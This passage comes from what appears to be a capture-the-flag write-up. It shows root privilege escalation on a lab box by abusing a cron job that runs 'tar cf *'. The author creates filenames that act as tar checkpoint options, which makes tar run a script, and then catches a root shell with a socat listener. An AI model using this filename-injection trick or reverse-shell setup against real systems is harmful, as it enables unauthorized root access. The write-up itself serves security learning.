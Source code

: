 I’ll go into the `backup` directory and use `touch` to create two files. The
first is `--checkpoint=1`. This will trigger the checkpoint action on the
first record added to the archive:

    
    
    alekos@joker:~/development$ touch -- --checkpoint=1   
    

The second is `--checkpoint-action=exec=python df`. This will tell `tar` to
run `df` when it reaches a checkpoint:

    
    
    alekos@joker:~/development$ touch -- '--checkpoint-action=exec=python df'
    

In both cases, I use `--` to tell the shell that nothing after that is an
argument, but a filename. It’s a good shorthand to create weird files, and a
good protection that if used in this cron, would prevent this method of
exploitation.

#### Shell

When the five minute mark rolls around, I get a shell on `socat`:

    
    
    root@kali# socat file:`tty`,raw,echo=0 udp-listen:443
    root@joker:/home/alekos/development# id
    uid=0(root) gid=0(root) groups=0(root)
    

### Exploit #3 - Break Cron

#### Theory

I always like to look at the automation on boxes. In this case,
`/root/backup.sh` is running every five minutes:

    
    
    root@joker:~# crontab -l
    ...[snip]...
    */5 * * * * /root/backup.sh
    

The script follows:

    
    
    root@joker:~# cat backup.sh 
    #!/bin/sh
    
    FILENAME="dev-$(date +%s).tar.gz"
    
    cd /home/alekos/development;
    tar cf /home/alekos/backup/$FILENAME *;
    chown root:alekos /home/alekos/backup/$FILENAME;
    chmod 640 /home/alekos/backup/$FILENAME;
    

It changes into the `development` directory, runs `tar cf` on `*`, then
changes the owner, group, and permissions.
